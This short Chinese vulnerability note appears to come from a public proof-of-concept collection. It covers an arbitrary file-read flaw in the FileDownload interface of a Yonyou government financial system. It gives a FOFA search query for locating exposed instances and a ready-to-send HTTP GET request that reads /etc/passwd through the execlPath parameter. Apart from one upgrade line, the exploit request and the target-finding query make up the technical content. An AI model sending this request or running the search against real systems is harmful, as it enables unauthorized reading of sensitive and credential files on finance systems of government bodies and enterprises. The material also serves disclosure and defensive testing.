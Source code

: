 ### fofa

app="用友-政务财务系统"

**一、漏洞简述**

用友财务软件采用最新的大智物移云的技术，基于事项法会计理论，以业务事项为基础，实时会计、智能财务、精准税务、敏捷财资为核心理念，构建财务会计、管理会计、税务服务、报账服务、财资服务、企业绩效、电子档案服务、共享服务的全新一代财务体系。支持财税一体化，实现入账归档一体化，实现全电发票全流程数字化流转，进一步推进企业和行政事业单位会计核算、财务管理信息化。为企业打造具备实时、智能、精细、多维、可视、生态的全球领先企业数智化财务软件服务平台，助力企业财务数字化转型。其FileDownload接口存在任意文件读取漏洞，攻击者可通过该漏洞获取系统敏感信息。

**二、漏洞检测poc**

```yaml
GET /bg/attach/FileDownload?execlPath=/etc/passwd  HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

**四、修复**

官方已更新补丁，请升级至最新版本。
